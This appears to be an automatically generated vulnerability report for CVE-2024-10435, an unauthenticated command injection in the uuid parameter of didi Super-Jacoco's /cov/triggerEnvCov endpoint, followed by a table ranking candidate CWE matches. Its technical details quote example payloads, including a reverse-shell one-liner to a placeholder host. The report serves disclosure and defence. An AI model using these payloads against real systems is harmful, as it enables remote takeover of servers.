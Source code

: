 # Vulnerability Information: CVE-2024-10435

## Vulnerability Description
A vulnerability was found in didi Super-Jacoco 1.0. It has been declared as critical. This vulnerability affects unknown code of the file /cov/triggerEnvCov. The manipulation of the argument uuid leads to **command injection**. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used.

### Vulnerability Description Key Phrases
- **weakness:** **command injection**
- **product:** didi Super-Jacoco
- **version:** 1.0
- **component:** /cov/triggerEnvCov

## CVE Reference Links Content Summary
Based on the provided content, here's an analysis of the vulnerability:

**Root Cause of Vulnerability:**
The vulnerability stems from the lack of proper sanitization or validation of the `uuid` parameter in the `/cov/triggerEnvCov` interface of the `super-jacoco` application. This allows for command injection.

**Weaknesses/Vulnerabilities Present:**
- **Command Injection:** The primary vulnerability is that the application directly uses the user-supplied `uuid` parameter in a system command without proper sanitization. This allows an attacker to inject arbitrary commands.
- **Lack of Authorization:** The vulnerability is exploitable by "unauthorized attackers", which suggests the `/cov/triggerEnvCov` endpoint may not have adequate access controls.

**Impact of Exploitation:**
- **Arbitrary Command Execution:** Successful exploitation allows the attacker to execute arbitrary commands on the target system with the privileges of the user running the `super-jacoco` application.
- **Full System Compromise:** The attacker can potentially gain full control of the target system through the execution of malicious commands. This could include reading or modifying sensitive data, installing malware, or disrupting service.
- **Reverse Shell:** The provided proof of concept demonstrates the ability to obtain a reverse shell on the target system, granting interactive control to the attacker.

**Attack Vectors:**
- **HTTP Request Manipulation:** An attacker can craft a malicious HTTP POST request to the `/cov/triggerEnvCov` endpoint. The `uuid` parameter within the JSON body of the request is used to inject arbitrary commands.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to send HTTP requests to the target `super-jacoco` instance, implying network access to the service.
- **No Authentication Required:** The description states "unauthorized attackers" can exploit the vulnerability, suggesting no prior authentication is required to trigger the vulnerability.

**Technical Details:**
- The vulnerability lies within the `/cov/triggerEnvCov` endpoint.
- The `uuid` parameter within the JSON request body is vulnerable.
- The attacker can inject commands using shell operators such as `||`
- Example payloads include file creation (`touch /tmp/triggerEnvCov1`) and reverse shell execution (`bash -i >& /dev/tcp/x.x.x.x/9333 0>&1`)

**Additional Notes:**
- The vulnerability was reported on GitHub Issues and has been assigned the ID 48.
- The vulnerable application is `didi super-jacoco` version 1.0.
- The issue was reported on Oct 21, 2024 and the submission was accepted on Oct 27, 2024

This information provides a more detailed explanation of the vulnerability than the placeholder CVE description.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 77 | Improper Neutralization of Special Elements used in a Command ('Command Injection') | Class | Allowed-with-Review | alternate_terms | 1.000 |
| 2 | 78 | Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') | Base | Allowed | alternate_terms | 0.700 |
| 3 | 89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | Base | Allowed | sparse | 0.415 |
| 4 | 79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | Base | Allowed | sparse | 0.369 |
| 5 | 117 | Improper Output Neutralization for Logs | Base | Allowed | sparse | 0.329 |
| 6 | 1336 | Improper Neutralization of Special Elements Used in a Template Engine | Base | Allowed | sparse | 0.313 |
| 7 | 99 | Improper Control of Resource Identifiers ('Resource Injection') | Class | Allowed-with-Review | sparse | 0.309 |
| 8 | 434 | Unrestricted Upload of File with Dangerous Type | Base | Allowed | sparse | 0.308 |
| 9 | 790 | Improper Filtering of Special Elements | Class | Allowed-with-Review | dense | 0.593 |
| 10 | 184 | Incomplete List of Disallowed Inputs | Base | Allowed | graph | 0.002 |

